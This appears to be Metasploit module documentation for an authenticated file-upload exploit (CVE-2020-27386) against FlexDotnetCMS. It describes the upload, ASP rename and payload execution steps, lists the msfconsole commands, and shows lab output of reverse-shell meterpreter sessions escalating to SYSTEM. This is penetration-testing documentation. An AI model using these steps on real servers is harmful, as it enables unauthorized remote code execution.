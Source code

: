 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability (CVE-2020-27386) in FlexDotnetCMS v1.5.8 and prior
in order to execute arbitrary commands with elevated privileges.

The module first tries to obtain various tokens required for authentication from `/login`.
Next, the module tries to authenticate via an HTTP POST request to the same destination followed by an HTTP GET request to `/Admin`.
If authentication is successful, the module uploads a TXT file containing a random string via an HTTP POST request to
`/Scripts/tinyfilemanager.net/dialog.aspx`.
The module then loads the uploaded TXT file in the file editor in order to obtain tokens necessary for renaming the TXT file.
It then tries to rename the TXT file to an ASP file via an HTTP POST request to `/Admin/Views/PageHandlers/FileEditor/Default.aspx`.
If this succeeds, the target is vulnerable and the ASP file is generated as a copy of the TXT file, which remains on the server.
Next, the module sends another request to the file editor to rename the TXT file to an ASP file, this time adding the payload.
The module will execute the payload via a simple HTTP GET request to `/media/uploads/asp_payload`.
Finally, the module will try to delete both the uploaded TXT file and the ASP copy from the target.

Valid credentials for a FlexDotnetCMS user with permissions to use the FileManager are required.
This attack will normally result in remote code execution with administrator privileges, because the attacker will inherit the privileges
of the IIS/IIS Express process, which must run with elevated privileges if configured to allow remote connections.
This module has been successfully tested against FlexDotnetCMS v1.5.8 running on Windows Server 2012.

Vulnerable software for testing is available on GitHub [here](https://github.com/MacdonaldRobinson/FlexDotnetCMS/releases).
Detailed installation instructions are available
[here](https://github.com/MacdonaldRobinson/FlexDotnetCMS/raw/master/WebApplication/Admin/media/docs/FlexDotnetCMSGuide.docx).
As the instructions mention, FlexDotnetCMS requires the following dependencies:
- .NET Framework 4.5.2
- Visual Studio 2015 (Free Community Edition works)
- MS SQL Server (Express) 2012 +
- IIS (Express) 8 +

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/FlexDotnetCMS_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the FlexDotnetCMS account]`
6. Do: `set PASSWORD [password for the FlexDotnetCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the FlexDotnetCMS account to authenticate with.
### TARGETURI
The base path to FlexDotnetCMS. The default value is `/`.
### USERNAME
The username for the FlexDotnetCMS account to authenticate with. The default value is `admin`.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### FlexDotnetCMS v1.5.8 running on Windows Server 2012 - Windows x86 target
```
msf exploit(windows/http/flexdotnetcms_upload_exec) > show options

Module options (exploit/windows/http/flexdotnetcms_upload_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Password1        yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.230    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      1113             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to FlexDotnetCMS
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows (x86)


msf exploit(windows/http/flexdotnetcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to FlexDotnetCMS
[*] FlexDotnetCMS is installed on the target at C:/Users/Administrator/Desktop/FlexDotnetCMS-1.5.8/
[*] Uploaded test file wxoI7s6knq.txt. Attempting to rename the file to wxoI7s6knq.asp...
[+] Successfully renamed test file wxoI7s6knq.txt to wxoI7s6knq.asp (this is a copy of wxoI7s6knq.txt, which remains on the server)
[+] The target is vulnerable. Target is FlexDotnetCMS v1.5.8 or lower.
[*] Renaming wxoI7s6knq.txt to wxoI7s6knq.asp again, this time adding the payload
[+] Successfully added the ASP payload to wxoI7s6knq.asp
[*] Executing the payload...
[*] Sending stage (175174 bytes) to 192.168.1.230
[*] Meterpreter session 9 opened (192.168.1.128:4444 -> 192.168.1.230:62058) at 2020-11-02 11:10:41 -0500
[+] Successfully deleted wxoI7s6knq.txt
[+] Successfully deleted wxoI7s6knq.asp

meterpreter > getuid
Server username: WIN-S623VF4MJDR\Administrator
meterpreter > getsystem 
ge...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
tmeterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### FlexDotnetCMS v1.5.8 running on Windows Server 2012 - Windows x64 target
```
msf exploit(windows/http/flexdotnetcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to FlexDotnetCMS
[*] FlexDotnetCMS is installed on the target at C:/Users/Administrator/Desktop/FlexDotnetCMS-1.5.8/
[*] Uploaded test file XLz3OTusi.txt. Attempting to rename the file to XLz3OTusi.asp...
[+] Successfully renamed test file XLz3OTusi.txt to XLz3OTusi.asp (this is a copy of XLz3OTusi.txt, which remains on the server)
[+] The target is vulnerable. Target is FlexDotnetCMS v1.5.8 or lower.
[*] Renaming XLz3OTusi.txt to XLz3OTusi.asp again, this time adding the payload
[+] Successfully added the ASP payload to XLz3OTusi.asp
[*] Executing the payload...
[*] Sending stage (200262 bytes) to 192.168.1.230
[*] Meterpreter session 10 opened (192.168.1.128:4444 -> 192.168.1.230:62059) at 2020-11-02 11:10:55 -0500
[+] Successfully deleted XLz3OTusi.txt
[+] Successfully deleted XLz3OTusi.asp

meterpreter > getuid
Server username: WIN-S623VF4MJDR\Administrator
meterpreter >
```
